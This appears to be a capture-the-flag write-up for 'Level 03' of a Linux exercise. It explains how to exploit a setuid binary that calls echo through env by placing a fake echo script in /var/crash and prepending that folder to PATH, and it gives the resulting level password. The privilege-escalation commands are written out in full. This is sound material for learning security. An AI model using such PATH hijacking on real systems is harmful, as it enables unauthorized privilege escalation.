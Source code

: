 # LEVEL 03

## 💡 Explanation

In this level we can observe, with a simple ```ls -la``` in the home, that we have:
1. A binary with sticky rights, that prints us 'Exploit me' when running it.
2. When Launching ```strings level03``` we find a command that give us the solution to the problem....:   
`/usr/bin/env echo exploit me`

In this level we have to:
1. Find a folder where we have rights to create files
2. In this folder, modify the command `echo` to make it run `getflag` with the flag03 user permissions
3. Add this new command to our PATH so that the binary will run this new echo command with the flag03 user permissions.


## 👾 Commands

```
strings level03
which getflag
export PATH=/var/crash:$PATH
echo "getflag > /var/crash/flag" > /var/crash/echo
chmod +x /var/crash/echo
./level03
cat /var/crash/flag
```

## 🔍 Resources

- [Linux strings command](https://www.javatpoint.com/linux-strings-command#:~:text=Linux%20strings%20command%20is%20used,text%20from%20an%20executable%20file.)
- [Linux env command](https://www.computerhope.com/unix/uenv.htm#:~:text=env%20is%20a%20shell%20command,without%20modifying%20the%20current%20one.)

## 🔥 Password
`qi0maab88jeaj46qoumi7maus`
